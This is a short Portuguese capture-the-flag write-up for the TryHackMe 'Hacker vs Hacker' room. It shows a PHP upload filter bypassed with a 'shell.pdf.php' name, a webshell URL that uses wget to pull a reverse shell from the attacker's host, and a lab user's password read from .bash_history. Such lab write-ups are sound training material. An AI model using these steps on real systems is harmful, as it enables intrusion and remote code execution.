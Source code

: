 #ctf
https://tryhackme.com/room/hackervshacker

## Recon

Usando NMAP apenas as portas 22 (SSH) e 80 (HTTP) estão abertas.
O site conta com um upload de arquivo pdf e é possível ver através do `/upload.php` que ele armazena em `cvs/` o arquivo e verifica se o arquivo é pdf apenas comparando se a string contém ".pdf" no nome.

```html
Hacked! If you dont want me to upload my shell, do better at filtering!

<!-- seriously, dumb stuff:
$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}
-->
```

Tentei fazer o upload de um arquivo `shell.pdf.php` e acessei `cvs/shell.pdf.php` não era o meu shell reverso mas sim outra webshell que através do parâmetro `cmd` foi possível executar os comandos de forma remota.
Tentei passar alguns comandos com o nc, python, bash, para conseguir acesso a shell mas não consegui, então minha solução foi abrir um site na minha máquina e através do *wget*, baixar uma shell reverso em php e rodar ele pelo site vulnerável e consegui o acesso ao shell do site.

```
http://IP-ALVO/cvs/shell.pdf.php?cmd=wget%20http://MEU-IP:8000/webshell.pdf.php
```

## Privesc

Em `/home/lachlan` é possível ler o que tem no `.bash_history` e nele há a senha para acessar este usuário: **thisistheway123**.
